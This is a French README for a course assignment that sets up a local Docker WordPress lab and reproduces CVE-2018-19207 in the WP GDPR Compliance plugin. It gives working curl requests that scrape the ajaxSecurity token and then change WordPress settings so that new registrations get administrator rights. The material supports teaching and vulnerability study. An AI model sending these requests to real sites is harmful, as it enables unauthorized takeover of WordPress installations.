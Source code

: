 # SDSI

Devoir 2 - Faille CVE-2018-19207

## Démarrer les containers

Lancez la virtual box Centos7 (option 1 recommandée).

```
lance-vm-centos7.sh
```

Téléchargez les sources dans la virtual box et installez docker-compose (vous pouvez utiliser le script `docker-compose.sh`).

Placez vous dans le repertoire des sources et démarrez les containers.

```
docker-compose up
```

## Configuration de wordpress

1. Se connecter au site via ` http://localhost:8000/ `

2. Créer le compte administrateur en suivant les instructions (N.B : Attention l'adresse mail n'a pas besoin d'être correcte mais son format doit l'être !)

3. Activer le plugin "WP GDPR Compliance" via ` http://localhost:8000/wp-admin/plugins.php ` puis "Activate"

## Exploitation de la faille

### 1. Se connecter sur le home du site

- Requête GET à ` http://localhost:8000/ ` pour obtenir le token `ajaxSecurity` utilisé par le plugin (copier les quelques caractères composant le token)

```
curl -X GET http://localhost:8000/ | grep "ajaxSecurity"
```

### 2. Autoriser la création de nouveaux utilisateurs

Tentez de créer un nouveau compte à l'adresse ` http://localhost:8000/wp-login.php?action=register `.

On peut voir le message d'erreur suivant "User registration is currently not allowed." Nous allons modifier les paramètres Wordpress afin d'autoriser la création de nouveaux comptes.

- Requête POST à ` http://localhost:8000/wp-admin/admin-ajax.php `
- Paramètres: `action=wpgdprc_process_action&security=AJAXSECURITYTOKEN&data ={"type": "save_setting", "append": "false", "option": "users_can_register", "value": "1"}`

Attention : remplacez 'AJAXSECURITYTOKEN' par le token de sécurité précédemment récupéré dans la requête GET !

```
curl -H "Content-Type: application/x-www-form-urlencoded" -d "action=wpgdprc_process_action&security=AJAXSECURITYTOKEN&data=%7B%22type%22%3A%22save_setting%22%2C%22append%22%3Afalse%2C%22option%22%3A%22users_can_register%22%2C%22value%22%3A%221%22%7D" -X POST http://localhost:8000/wp-admin/admin-ajax.php
```

Vous devriez obtenir la réponse suivante : `{"message":"","error":""}`

En accédant à nouveau à ` http://localhost:8000/wp-login.php?action=register `, on peut désormais créer un nouveau compte sur le site.

### 3. Obtenir les droits administateur

On souhaite désormais que les nouveaux comptes créés aient les droits administrateur par défaut.

- Requête POST à ` http://localhost:8000/wp-admin/admin-ajax.php `
- Paramètres: `action=wpgdprc_process_action&security=AJAXSECURITYTOKEN&data ={"type": "save_setting", "append": "false","option": "default_role", "value": "administrator"}`

Attention : remplacez 'AJAXSECURITYTOKEN' par le token de sécurité précédemment récupéré dans la requête GET !

```
curl -H "Content-Type: application/x-www-form-urlencoded" -d "action=wpgdprc_process_action&security=AJAXSECURYTOKEN&data=%7B%22type%22%3A%22save_setting%22%2C%22append%22%3Afalse%2C%22option%22%3A%22default_role%22%2C%22value%22%3A%22administrator%22%7D" -X POST http://localhost:8000/wp-admin/admin-ajax.php
```

### 4. Obtenir un compte administrateur

Créez-vous un nouveau compte ` http://localhost:8000/wp-login.php?action=register `. On vous demande ensuite de vérifier votre adresse mail. Ignorez cette demande (le site n'est pas configuré pour envoyer des mails) et connectez vous via ` http://localhost:8000/wp-login.php ` avec le compte admin initial.

Dans l'onglet "Users", vous pourrez voir le nouveau compte que vous avez créé avec le rôle "Administrator". Vous pouvez aussi vérifier dans l'onglet "Settings" > "General" les paramètres "Membership" (la case "Anyone can register" devrait être cochée) et "New User Default Role" (à "Administrator").

## En cas de problème

Si vous n'arrivez pas à faire fonctionner le PoC, n'hésitez pas à créer un ticket sur notre dépôt : https://github.com/saoulij/SDSI/ !
